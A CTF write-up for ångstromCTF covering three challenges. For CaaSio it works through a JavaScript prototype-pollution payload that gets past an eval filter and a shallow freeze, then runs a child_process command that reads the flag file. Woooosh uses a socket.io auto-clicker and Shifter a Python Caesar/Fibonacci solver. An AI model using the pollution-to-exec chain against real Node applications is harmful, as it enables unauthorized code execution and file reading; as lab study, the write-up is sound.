

# ångstromCTF

- [ångstromCTF](#ångstromctf)
  - [Web](#web)
    - [CaaSio](#caasio)
    - [Woooosh](#woooosh)
  - [Misc](#misc)
    - [Shifter](#shifter)

## Web

### CaaSio

For CaaSio we had access to a calculator. The source is [here](../../assets/code/angstrom/caasio/index.js).

Later in the execution our query is `eval`'d so obviously we need to run something interesting there.

There are a lot of details involved so I'll start with the basic ones.

```js
if (name.length > 10) {
    console.log("Your name is too long, I can't remember that!");
    return;
}
user.name = name;
if (user.name == "such_a_trusted_user_wow") {
    user.trusted = true;
}
```

The code above stops us from inputing a name bigger than 10 characters,
so no way you'll get your `such_a_trusted_user_wow`.

```js
while (user.queries < 3)
```

This stops us from making more than 3 queries, but we'll only need two!

```js
if (prompt.length > 200) {
    console.log("That's way too long for me!");
    continue;
}
```

To finish the boring stuff, we cannot send a command with more than 200 characters.
Still, no problem.

Let's get to the interesting stuff.

```js
let reg = /(?:Math(?:(?:\.\w+)|\b))|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)/g
// ......
if (!user.trusted) {
    prompt = (prompt.match(reg) || []).join``;
}
```

Given we are not trusted, queries we send are filtered by `reg`.
Effectively stopping most possible attempts.

```js
Object.freeze(global);
Object.freeze(Math);
```

This stops us from modifying `Math`, however it is only a shallow freeze.
This means that members of `Math` are not frozen, we will be taking advantage of that to get our trusted execution going!

So, starting with the regex, we can write `Math.any_kind_of_text`,
including `Math.__proto__`.
While `__proto__` cannot be reassigned, we can extend it,
however we cannot write `Math.__proto__.obj`, as `obj` will be cut out.

Entering lambdas!
We can write `()=>` and while this does not make a multi line lambda, it allows us to make one action at a time.
Enabling composition!

We have our ingredients together!
First we need to get trusted.

```js
((Math)=>(Math.trusted=1))(((Math)=>(Math.__proto__))(Math))
```

You may be confused, in normal JS the code above looks like:

```js
function (Math) {
    Math.trusted = 1;
}(
    function (Math) {
        return Math.__proto__;
    }(Math)
);
```

Which in turn looks more like:

```js
function f(x) {
    return x.__proto__
}

function g(x) {
    return x.trusted = 1;
}

g(f(Math));
```

Why does this give us a trusted user?

`Math` inherits from `Object`, see [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Math),
which means that when we mutate `Math.__proto__` we are mutating `Object.__proto__`, thus mutating every object,
hence why `user.trusted` will be set to `1`.

So now we just need to read the file.

```js
const { exec } = require("child_process");

exec("cat /ctf/flag.txt", (error, stdout, stderr) => {
    console.log(`stdout: ${stdout}`);
});
```

Running the code above, minified, will yield the flag.

```
actf{pr0t0typ3s_4re_4_bl3ss1ng_4nd_4_curs3}
```

### Woooosh

For Woooosh we had a clicker game with an obfuscated clicker game.



The backend [source](../../assets/code/angstrom/woooosh/index.js) was given.
They used [`socket.io`](https://socket.io/), so we can do the same.

Looking at the source they use the first shape as the circle.

```js
if (dist(game.shapes[0].x, game.shapes[1].y, x, y) < 10) {
    game.score++;
}
```

So when we receive the generated shapes we just need to pick the first!

I opened a socket and started by emitting `start`.

```js
socket.emit("start");
```

Afterwards we just need to listen for events and reply.
Bellow is the clicking function.

```js
socket.on('shapes', shapes => {
    socket.emit("click", shapes[0].x, shapes[0].y);
});
```

And you'll need this to get the flag.

```js
socket.on('disp', disp => {
    console.log(disp);
});
```

Full source [here](../../assets/code/angstrom/woooosh/woooosh.js).

## Misc

### Shifter

Connecting to Shifter we are greeted with the following:

```
Solve 50 of these epic problems in a row to prove you are a master crypto man like Aplet123!
You'll be given a number n and also a plaintext p.
Caesar shift `p` with the nth Fibonacci number.
n < 50, p is completely uppercase and alphabetic, len(p) < 50
You have 60 seconds!
--------------------
Shift BXRUJEAKBPSKTXDOXETQV by n=22
:
```

They give us a number `n` and a caesar cipher.
Easy enough, we can steal the implementations from StackOverflow (or write them ourselves) and do the following:

```py
def get_last_line(text):
    return text.split("\n")[-2]

def get_info(line):
    l = line.split(" ")
    return (l[1], l[-1].split("=")[1])
`
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        data = s.recv(1024)
        if not data:
            break
        text = data.decode("utf-8")
        print(text)
        cipher, n = get_info(get_last_line(text))
        fN = fib(int(n))
        shifted = caesar(cipher, fN)
        print(shifted)
        s.sendall(bytes(shifted + '\n', 'utf-8'))
```

`fib` and `caesar` are the implementations for Fibonnaci and Caesar cipher, respectively, both taken from some place on the internet, hence not being shown.

Breaking the script down:

```py
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
```

The code above will connect us to the challenge, then we just need to receive the buffer and parse it.
I used these two functions:

```py
def get_last_line(text):
    return text.split("\n")[-2]

def get_info(line):
    l = line.split(" ")
    return (l[1], l[-1].split("=")[1])
```

Afterwards we just cast `n`, calculate it, and shift the given cipher.

Voilá!

```
actf{h0p3_y0u_us3d_th3_f0rmu14-1985098}
```